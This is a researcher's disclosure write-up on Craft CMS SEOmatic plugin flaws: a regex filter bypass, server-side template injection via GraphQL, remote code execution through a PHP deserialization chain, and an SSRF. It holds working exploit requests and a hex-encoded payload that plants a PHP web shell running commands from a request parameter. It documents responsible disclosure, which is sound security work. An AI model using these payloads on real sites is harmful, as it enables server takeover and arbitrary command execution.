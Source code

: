 # Multiple vulnerabilities at Craft CMS SEOmatic plugin


A couple of months ago I was performing retest of an interesting Server Side Request Forgery (SSRF) vulnerability at `debug` GET parameter. Developers disabled it on load balancer and I decided to perform some fuzzing with awesome Burp Suite plugin [param-miner](https://github.com/PortSwigger/param-miner). There was no way to exploit SSRF but interesting parameter `action` was discovered. Future investigation show that it is default behavior of [Craft CMS](https://craftcms.com/). Fast search by public CVE retured promising vulnerability CVE-2018-14716. You can find information about issue and way to exploit it at blog post [0xB455](http://ha.cker.info/exploitation-of-server-side-template-injection-with-craft-cms-plguin-seomatic/). When you will finish reading article return and we find way to bypass fix and execute code at vulnerable system.

Draft

<!--more-->

### Initial setup of vulnerable CMS
Before we start let's prepare our own library. Craft CMS Seomatic plugin version before 3.3.15 required to reproduce issues. Intallation guide can be found at official [documentation](https://craftcms.com/docs/3.x/installation.html) plugin can be found at [plugin store](https://plugins.craftcms.com/seomatic). Vulnerable application had Pro license and to test localy I made small fix at file
⁨craft⁩/vendor⁩/⁨craftcms⁩/⁨cms⁩/⁨src⁩/⁨controllers/GraphqlController.php:57

```php
 // Craft::$app->requireEdition(Craft::Pro);
```

### Security protection bypass
Now everything is ready to get started. Fix of CVE-2018-14716 is implemented at function sanitizeUrl(). It takes user supplied parameter url decode it and replace all strings with following rule `/{.*}/` to delete all Twig template special symbols. Vulnerable code:

```php

	public static function sanitizeUrl(string $url, bool $checkStatus = true): string
    {
        // Remove the query string
        $url = UrlHelper::stripQueryString($url);
        // HTML decode the entities, then strip out any tags
        $url = html_entity_decode($url, ENT_NOQUOTES, 'UTF-8');
        $url = urldecode($url);
        $url = strip_tags($url);

        // If this is a >= 400 status code, set the canonical URL to nothing
        if ($checkStatus && Craft::$app->getResponse()->statusCode >= 400) {
            $url = '';
        }
        // Remove any Twig tags that somehow are present in the incoming URL
        /** @noinspection CallableParameterUseCaseInTypeContextInspection */
        $result = preg_replace('/{.*}/', '', $url);
        // var_dump($result);
        if (!empty($result) && $result) {
            $url = $result;
        } else {
            $url = '';
        }

        return $url;
    }
```
Hopefully for attacker Regular Expressions (Perl-Compatible) have some funny behavior that will allows to bypass such protection. Let's take a look at [docs](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) 
```
s (PCRE_DOTALL) 
If this modifier is set, a dot metacharacter in the pattern matches all characters, including newlines. Without it, newlines are excluded.
```
Finally to bypass protection malicious user should split it template injection payload with new line symbols. Proof of Concept can be presented as `{{\n13*13\n}}`. 
Seomatic plugin API was disabled at target assets - it is another major obstacle to seccusefully inject Twig template. By default it should be available at endpoint `/actions/seomatic/meta-container/all-meta-containers?uri=` and if you are lucky you can skip next section. 
![Seomatic plugin API](/images/seomatic-config.png)

### Graphql
There is another way to exploit vulnerability - Graphql Controller. By default graphql query available at `/actions/graphql/api`. Seomatic plugin register its seomatic query by default. We can get access to Secret information with unauthorization request to graphql api with `uri` value `{{\n1337*13\n}}`.

```html
POST /index.php?p=admin/actions/graphql/api HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
X-Requested-With: XMLHttpRequest
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

query=query{seomatic(uri:"{{\n1337*13\n}}"){metaTitleContainer,metaTagContainer}}

```
![Seomatic SSTI](/images/seomatic-ssti-1337.png)

### Remote code execution by unserialize
The old Remote Code Execution exploit available at internet looks like `{{craft.app.view.evaluateDynamicContent('print(system("ls"))')}}` but unfortunately for us it was disabled at version 3.5.0. At first I was trying to get RCE chain by unserialize function at `craft.app.getQueue().unserializeMessage()`. The only working chain at Craft CMS environment is *Guzzle/FW1* but it has some limitations that should be addressed first. Serialized object contains `{}` chars. We should modify string to exclude them from payload. As you may know PHP support `\\x00` encoding. I modified **phpggc** tool to print out exploit in new encoding. So it looks like:

```bash
./phpggc Guzzle/FW1 /tmp/exploit.txt data -s    
O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:41:"%00GuzzleHttp\Cookie\FileCookieJar%00filename"%3Bs:16:"/tmp/exploit.txt"%3Bs:52:"%00GuzzleHttp\Cookie\FileCookieJar%00storeSessionCookies"%3Bb:1%3Bs:36:"%00GuzzleHttp\Cookie\CookieJar%00cookies"%3Ba:1:{i:0%3BO:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"%00GuzzleHttp\Cookie\SetCookie%00data"%3Ba:3:{s:7:"Expires"%3Bi:1%3Bs:7:"Discard"%3Bb:0%3Bs:5:"Value"%3Bs:80:"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd'])%3B system($cmd)%3B }?>%0A"%3B}}}s:39:"%00GuzzleHttp\Cookie\CookieJar%00strictMode"%3BN%3B}

\\x4f\\x3a\\x33\\x31\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x22\\x3a\\x34\\x3a\\x7b\\x73\\x3a\\x34\\x31\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x66\\x69\\x6c\\x65\\x6e\\x61\\x6d\\x65\\x22\\x3b\\x73\\x3a\\x31\\x36\\x3a\\x22\\x2f\\x74\\x6d\\x70\\x2f\\x65\\x78\\x70\\x6c\\x6f\\x69\\x74\\x2e\\x74\\x78\\x74\\x22\\x3b\\x73\\x3a\\x35\\x32\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x6f\\x72\\x65\\x53\\x65\\x73\\x73\\x69\\x6f\\x6e\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x62\\x3a\\x31\\x3b\\x73\\x3a\\x33\\x36\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x63\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x61\\x3a\\x31\\x3a\\x7b\\x69\\x3a\\x30\\x3b\\x4f\\x3a\\x32\\x37\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x22\\x3a\\x31\\x3a\\x7b\\x73\\x3a\\x33\\x33\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x00\\x64\\x61\\x74\\x61\\x22\\x3b\\x61\\x3a\\x33\\x3a\\x7b\\x73\\x3a\\x37\\x3a\\x22\\x45\\x78\\x70\\x69\\x72\\x65\\x73\\x22\\x3b\\x69\\x3a\\x31\\x3b\\x73\\x3a\\x37\\x3a\\x22\\x44\\x69\\x73\\x63\\x61\\x72\\x64\\x22\\x3b\\x62\\x3a\\x30\\x3b\\x73\\x3a\\x35\\x3a\\x22\\x56\\x61\\x6c\\x75\\x65\\x22\\x3b\\x73\\x3a\\x38\\x30\\x3a\\x22\\x3c\\x3f\\x70\\x68\\x70\\x20\\x69\\x66\\x28\\x69\\x73\\x73\\x65\\x74\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x29\\x7b\\x20\\x24\\x63\\x6d\\x64\\x20\\x3d\\x20\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x3b\\x20\\x73\\x79\\x73\\x74\\x65\\x6d\\x28\\x24\\x63\\x6d\\x64\\x29\\x3b\\x20\\x7d\\x3f\\x3e\\x0a\\x22\\x3b\\x7d\\x7d\\x7d\\x73\\x3a\\x33\\x39\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x72\\x69\\x63\\x74\\x4d\\x6f\\x64\\x65\\x22\\x3b\\x4e\\x3b\\x7d
```
![Seomatic SSTI](/images/seomatic-ssti-unserialize.png)

Seccusesfully exploitation of vulnerability will creates `exploit.txt ` at `/tmp/` folder.

```bash
doge in ~/phpggc on master ● ● λ cat /tmp/exploit.txt 
[{"Expires":1,"Discard":false,"Value":"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>\n"}]%                                    
doge in ~/IdeaProjects/GIT/phpggc on master ● ● λ cat data  
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>
doge in ~/phpggc on master ● ● λ 

```

# Remote code execution 
A few days later I found better way to exploit this vulnerability. As I mentioned earlier method `evaluateDynamicContent` was disabled at Craft CMS but it was not at **Yii::Base::View**. As you may already know Twig template engine support variables by `%` declaration. We can use them to create new **Yii::Base::View** object and call `evaluateDynamicContent` method directly and bypass protection mechanism. Final exploit will looks like.

![Seomatic RCE](/images/seomatic-rce.png)

# Bonus. Server Side Request Forgery

Unauthorized Server Side Request Forgery at Craft CMS Seomatic plugin version before 3.3.15

### Details about vulnerability 
Controller FileController allows anonymous access by default. Function looks like:
```php
        $url = base64_decode($url);
        $robots = base64_decode($robots);
        $canonical = base64_decode($canonical);
        $url = UrlHelper::absoluteUrlWithProtocol($url);
        $contents = file_get_contents($url);
        $response = Craft::$app->getResponse();
```
Url parameter is base64 encoded malicious user host `http://3eif8shsnxsuvuyupt9o4bfwnntdh2.burpcollaborator.net/` is `aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8=`

### Step to reproduce

```html
GET /index.php?action=seomatic/file/seo-file-link&url=aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8= HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
![Seomatic SSRF](/images/seomatic-ssrf.png)
![Seomatic SSRF](/images/seomatic-ssrf-callback.png)

# Timeline

1. 13 Aug 2020 Vulnerabilities were discovered
2. 14 Aug 2020 Nystudio107 was informed about the vulnerabilities
3. 17 Aug 2020 fix released
4. 17 Nov 2020 CVE-2020-24961 assigned
5. 18 Nov 2020  Public disclosure
